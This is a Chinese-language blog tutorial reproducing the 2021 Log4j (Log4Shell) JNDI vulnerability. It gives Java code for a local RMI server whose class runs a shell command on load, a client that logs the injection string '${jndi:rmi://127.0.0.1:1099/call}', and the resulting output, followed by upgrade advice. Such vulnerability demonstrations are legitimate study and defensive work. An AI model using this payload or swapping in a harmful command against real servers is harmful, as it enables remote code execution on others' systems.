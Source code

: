 ```yaml
---
abbrlink: '0'
---
```

# log4j 漏洞攻击

事情起因于前几天（2021-12-10号）被全球广泛应用的组件Apache Log4j被曝出一个高危漏洞，攻击者仅需一段代码就可远程控制受害者服务器的事件。受影响的版本为 `Apache Log4j 2.x <= 2.14.1`。

其实这个本来算是log4j的一个特性，这个玩意在log4j里面叫做 [lookup](https://logging.apache.org/log4j/2.x/manual/lookups.html)，简而言之可以使用一些特定的变量进行数据处理包括远程调用。但也因为这个特性，如果是用户填写的内容被解释了，那么可能会造成远程调用，造成执行任意代码的危害，接下来我们演示下怎么重现这个问题。

代码已经放在了[码云-sdvdxl](https://gitee.com/sdvdxl/log4j-attack-demo)上，该工程是 maven+springboot项目，建议使用 idea 或者 eclipse 打开操作和运行程序（本人使用 mac + idea 作为开发调试环境）

>**仅供技术学习交流使用，切勿用来进行非法行为！如果因此造成危害，后果自付！**

## log4j远程执行过程

方便起见，这里使用了 [spring-start](https://start.spring.io/) 创建了一个 springboot 项目，完整代码参见上面连接。

该演示工程主要分为两部分：

- RMI Server（参见源码 `top.todu.log4j.attack.demo.rmi.server` 包的 java 文件）
- RMI Client （参见 `top.todu.log4j.attack.demo.Application` 文件）

### RMI server

RMI server 非常简单（没有深入研究rmi，所以简单写了个demo），主要内容解释：

1. RmiServerDemo 作为主程序，注册一个服务名称为 `call` 可以供 client 调用
1. 绑定端口 1099

### TestRunCommand

这个类起作用的就是静态代码块，被远程调用的时候，该静态代码库就会被执行

```java
static {
    try {
      // 要执行的命令，这里测试是在我自己的电脑上打开计算器程序
      Runtime.getRuntime().exec("open -a Calculator");
    } catch (IOException e) {
      e.printStackTrace();
    }
    System.out.println("rmi");
  }
```

这个代码远程执行的命令是：`open -a Calculator` 打开计算器（mac 系统上的命令），如果你是运行在windows上，可以将它改为其他命令，比如 `calc`。

运行 `RmiServerDemo` 启动 rmi server。

### RMI client

客户端代码非常简单，就是一个普通的带有 main 方法的类，加点打印日志的代码：

```java
package top.todu.log4j.attack.demo;

import java.util.concurrent.TimeUnit;
import org.apache.logging.log4j.Logger;
import org.slf4j.LoggerFactory;

// 模拟线上服务
// @Slf4j
public class Application {

  public static void main(String[] args) throws InterruptedException {
    Logger logger = org.apache.logging.log4j.LogManager.getLogger("log4j");
    String username = "${jndi:rmi://127.0.0.1:1099/call}";
    logger.info("用户登录，username: {}", username);
    logger.info("测试日志输出");
    System.out.println(LoggerFactory.getILoggerFactory().getClass().getName());
    TimeUnit.SECONDS.sleep(5);
  }
}

```

核心代码只有：

```java
Logger logger = org.apache.logging.log4j.LogManager.getLogger("log4j");
String username = "${jndi:rmi://127.0.0.1:1099/call}";
logger.info("用户登录，username: {}", username);
```

1. get 一个logger
2. 模拟用户（黑客）输入内容
3. 打印日志

启动main方法，稍等片刻，即可看到打开了本机的计算器；同时 client 打印了日志：

```txt
rmi
TestRunCommand{测试用toString}
log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr 用户登录，username: top.todu.log4j.attack.demo.rmi.server.ReferenceWraper@3e08ff24
[]wExlog4jlr log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr 测试日志输出
[]wExorg.apache.logging.slf4j.Log4jLoggerFactory
```

但是，server端只打印了 **rmi server started** 信息。

因为server和client都是运行在本机上，所以效果不明显；如果 server 部署到另一台机器， client 还在我的电脑上，那么我重新运行 client的话，还是会在我本就上打开我的计算器。

很奇怪是不是？这个跟rmi的原理有关： rmi 远程调用的时候，server将相关代码序列化传输到client上，client再在本机上运行这段代码。所以，如果别有用心的人写了个 rmi server，上面写了个比较厉害的代码（比如下载木马病毒，窃取数据库，甚至删库），那么可想而知，你的服务器是不是就炸了。

这就是这次 slf4j 的漏洞的危害，级别被定义为了 `Critical` 非常严重！

## 漏洞修复方法

如果用了log4j，还是老老实实的升级版本吧，最保险。截止目前，官方已经升级了版本到 `2.16.0`， 从 `2.15.0` 开始，默认禁用此特性，后续也可能删除。

## 问题？

我的服务使用的是 springboot，里面依赖了包含有log4j的包，会受到危害吗？

这里先简单说一下：

首先查看项目依赖：

maven 命令：

`mvn dependency:tree >tree` 查看 tree 文件内容，看看是否依赖 log4j

1. 如果项目明确指定使用的是 log4j（这里说的是log4j 2.xx）， 并且版本在 2.14.1 及其以下，毋庸置疑，受到影响
1. springboot默认依赖的是logging框架，使用的是 logback，如果整个项目未包含任何log4j的内容，那么显然不在影响范围内
1. 如果实际指定日志框架为 logback，只含了 log4j-core ，理论上也不会收到影响

所以，重点是要看实际日志输出的时候是用的哪套框架。
